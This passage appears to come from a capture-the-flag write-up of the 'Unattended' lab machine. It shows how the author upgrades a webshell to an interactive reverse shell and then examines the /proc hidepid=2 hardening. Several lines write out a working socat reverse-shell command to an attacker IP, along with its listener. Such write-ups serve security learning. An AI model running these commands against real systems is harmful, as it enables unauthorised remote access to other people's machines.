 Normally I would run the `python -c 'import pty;pty.spawn("bash")'` trick here, but there’s no python on the box:

```

www-data@unattended:/var/www/html$ which python
www-data@unattended:/var/www/html$ which python3
www-data@unattended:/var/www/html$ locate python
bash: locate: command not found
www-data@unattended:/var/www/html$ find / -type f -name python* 2>/dev/null
/usr/share/nano/python.nanorc

```

But `socat` is:

```

www-data@unattended:/var/www/html$ which socat
/usr/bin/socat

```

I can actually just use `socat` to get a full tty. I’ll update my webshell command to `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443` and url-encode it.:

Then I’ll listen with `socat`, and on hitting submit in repeater, I get a shell:

```

root@kali# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
www-data@unattended:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Shell as guly

### System Hardening

#### hidepid=2

The box author hardened this box such that I can’t see other users processes. He did this by mounting [/proc with hidepid=2](https://linux-audit.com/linux-system-hardening-adding-hidepid-to-proc/). I can see this by running `mount`:

```

guly@unattended:/boot$ mount | grep ^proc
proc on /proc type proc (rw,relatime,hidepid=2)

```

This explains why when I run `ps auwxx` I only see processes belonging to my current user:

```

guly@unattended:/boot$ ps awuxx
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
guly       825  0.0  0.0   4288   764 ?        S    01:32   0:00 sh -c socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10
guly       826  0.0  0.1  30880  3376 ?        S    01:32   0:01 socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:10.10.14.8:44
guly       827  0.0  0.1  20208  3900 pts/1    Ss   01:32   0:00 bash -li
guly     10904  0.0  0.1  38308  3308 pts/1    R+   15:46   0:00 ps awuxx

```
